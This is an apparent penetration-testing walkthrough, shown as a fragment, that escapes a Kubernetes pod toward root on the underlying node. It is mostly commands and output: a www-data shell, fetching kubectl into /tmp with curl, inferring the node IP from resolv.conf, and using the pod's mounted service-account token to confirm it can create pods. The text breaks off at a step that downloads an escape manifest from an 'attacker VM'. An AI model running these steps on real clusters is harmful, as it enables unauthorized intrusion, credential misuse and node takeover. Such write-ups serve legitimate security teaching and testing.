 ```
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

## Escaping the pod and get a shell on the node (google compute instance)

**Get the `kubectl` binary**

```
export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.24.12/bin/linux/amd64/kubectl; chmod 555 kubectl
```

**Find out the node IP via the `/etc/resolv.conf`**

```bash
cat /etc/resolv.conf
```

```
search default.svc.cluster.local svc.cluster.local cluster.local us-central1-c.c.<username>-development-3.internal c.<username>-development-3.internal google.internal
nameserver 10.228.0.10 #                 <----This is the line we need
options ndots:5
```

The local node for the nameserver `10.228.0.10` is always the `x.x.x.1` address, so in that case `10.228.0.1`

---

### Enumerate Privileges of the service account running the container

**Now you can query the Node API if the service account on the pod has sufficient permissions to create a pod**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.228.0.1/ auth can-i create pods
```

```
yes
```

### Deploy a pod that will get you a `root` account on the node

**Download the `pod-esc.yaml` from the attacker VM**
